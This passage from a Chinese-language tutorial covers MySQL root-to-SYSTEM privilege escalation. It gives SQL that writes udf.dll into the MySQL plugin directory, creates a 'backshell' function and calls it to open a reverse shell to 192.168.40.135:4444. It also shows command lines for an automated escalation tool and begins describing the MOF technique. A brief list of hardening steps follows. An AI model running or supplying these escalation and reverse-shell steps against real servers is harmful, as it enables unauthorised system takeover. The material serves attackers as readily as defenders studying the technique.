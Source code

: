 查看mysql数据库配置文件内容

## **五、UDF提权总结与防范**

目前安装的Mysql数据库版本基本是高于5.1版本，通过Mysql查询可以导出udf.dll但由于mysql中my.ini文件的配置，有可能会导致无法创建自定义函数。这时候就需要修改my.ini进行重启。

**1.提权总结**

(1)有webshell的提权

如果获取了webshell则比较简单，目前有很多Mysql提权的PHP脚本，可以比较快速的进行提权，在此不赘述。

(2)无webshell的提权

>select version(); //获取mysql版本 
>
>select @@basedir; //查找到mysql的目录  
>
>SHOW VARIABLES LIKE '%plugin%' //查看高版本插件位置 

通过查询将udf.dll转成代码插入数据库，然后导出

```sql
use mysql; 
set @a=concat('',0x代码); 
create table Ghost(data LONGBLOB); 
insert into Ghost values("");update Ghost set data = @a; 
代码为select hex(load_file('c:/udf.dll'))中的内容 
select data from Ghost into dumpfile 'c:/phpStudy/MySQL/lib/plugin/udf.dll'; //导出ufd.dll 
CREATE FUNCTION backshell RETURNS STRING SONAME 'udf.dll';//创建函数 
select backshell("192.168.40.135",4444); 
```

(3)使用Python_FuckMySQL工具进行自动提权

```python
python root.py -a 127.0.0.1 -p root -e "ver&whoami" -m udf 
python root.py -a 127.0.0.1 -p root -e "ver&whoami" -m lpk 
python root.py -a 127.0.0.1 -p root -e "ver&whoami" –m st 
```

**2.安全防范方法**

(1)尽量避免提供对外链接，通过mysql中的user表进行查看，禁用“%”。

(2)设置复杂的Root账号密码。

(3)对my.ini设置只读属性，设置plugin目录为只读目录。



## 0x04 MySQL数据库Root权限MOF方法提权研究

MySQL Root权限MOF方法提权是来自国外Kingcope大牛发布的MySQL Scanner & MySQL Server for Windows Remote SYSTEM Level Exploit(https://www.exploit-db.com/exploits/23083/)，简称mysql远程提权0day(MySQL Windows Remote System Level Exploit (Stuxnet technique) 0day)。Windows 管理规范 (WMI) 提供了以下三种方法编译到 WMI 存储库的托管对象格式 (MOF) 文件：

>方法1：运行 MOF 文件指定为命令行参数将 Mofcomp.exe 文件。
>
>方法2：使用 IMofCompiler 接口和 $ CompileFile 方法。
>
>方法3：拖放到 %SystemRoot%\System32\Wbem\MOF 文件夹的 MOF 文件。
